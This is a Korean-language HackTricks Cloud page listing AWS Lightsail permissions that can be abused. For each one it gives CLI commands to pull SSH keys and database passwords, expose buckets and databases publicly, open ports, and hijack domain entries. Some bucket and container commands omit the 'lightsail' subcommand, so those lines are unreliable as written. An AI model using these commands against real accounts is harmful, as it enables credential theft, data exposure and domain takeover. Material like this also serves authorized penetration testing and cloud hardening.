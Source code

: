 # AWS - Lightsail Privilege Escalation

{% hint style="success" %}
AWS 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹을 배우고 실습하세요: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## Lightsail

Lightsail에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail은 **사용자에 속한 IAM 역할을 사용하지 않는다는 점**에 유의해야 합니다. 대신 AWS 관리 계정에 속한 IAM 역할을 사용하므로 이 서비스를 통해 권한 상승을 악용할 수 없습니다. 그러나 코드, API 키 및 데이터베이스 정보와 같은 **민감한 데이터**가 이 서비스에서 발견될 수 있습니다.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

이 권한을 부여받으면 인스턴스에 액세스할 수 있는 SSH 키를 가져올 수 있습니다.
```
aws lightsail download-default-key-pair
```
**잠재적 영향:** 인스턴스 내부에서 민감한 정보 찾기.

### `lightsail:GetInstanceAccessDetails`

이 권한을 통해 인스턴스에 액세스하기 위한 SSH 키를 생성할 수 있습니다.
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**잠재적 영향:** 인스턴스 내부에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:CreateBucketAccessKey`

이 권한을 통해 버킷에 액세스할 수 있는 키를 얻을 수 있습니다.
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**잠재적 영향:** 버킷 내부에서 민감한 정보 찾기.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

이 권한을 통해 데이터베이스에 액세스할 수 있는 자격 증명을 얻을 수 있습니다.
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**잠재적 영향:** 데이터베이스 내부의 민감한 정보 찾기.

### `lightsail:UpdateRelationalDatabase`

이 권한을 통해 데이터베이스에 액세스하는 비밀번호를 변경할 수 있습니다:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

데이터베이스가 공개되어 있지 않다면 다음 권한으로 공개로 만들 수도 있습니다.

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**잠재적 영향:** 데이터베이스 내부에서 민감한 정보를 찾을 수 있습니다.

### `lightsail:OpenInstancePublicPorts`

이 권한은 인터넷으로 포트를 열 수 있게 합니다.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 액세스합니다.

### `lightsail:PutInstancePublicPorts`

이 권한은 인터넷으로 포트를 열 수 있게 합니다. 호출은 지정되지 않은 포트를 닫습니다.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 액세스합니다.

### `lightsail:SetResourceAccessForBucket`

이 권한을 사용하면 추가 자격 증명 없이 인스턴스에 버킷 액세스 권한을 부여할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 액세스 가능성.

### `lightsail:UpdateBucket`

이 권한을 가지고 있는 공격자는 자신의 AWS 계정에 대한 버킷의 읽기 액세스 권한을 부여하거나 버킷을 모든 사람에게 공개로 만들 수 있습니다:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**잠재적 영향:** 민감한 정보가 포함된 버킷에 새로운 액세스 가능성이 있습니다.

### `lightsail:UpdateContainerService`

해당 권한을 가진 공격자는 컨테이너 서비스에서 개인 ECR에 액세스 권한을 부여할 수 있습니다.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**잠재적 영향:** 개인 ECR에서 민감한 정보 가져오기

### `lightsail:CreateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 지정할 수 있습니다 (서브도메인 탈취), 또는 도메인에서 이메일을 위조할 수 있는 SPF 레코드를 작성하거나 심지어 주요 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

### `lightsail:UpdateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 해당 서브도메인을 자신의 IP 주소로 지정(subdomain takeover)하거나, 도메인에서 이메일을 스푸핑할 수 있는 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 트릭을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
{% endhint %}
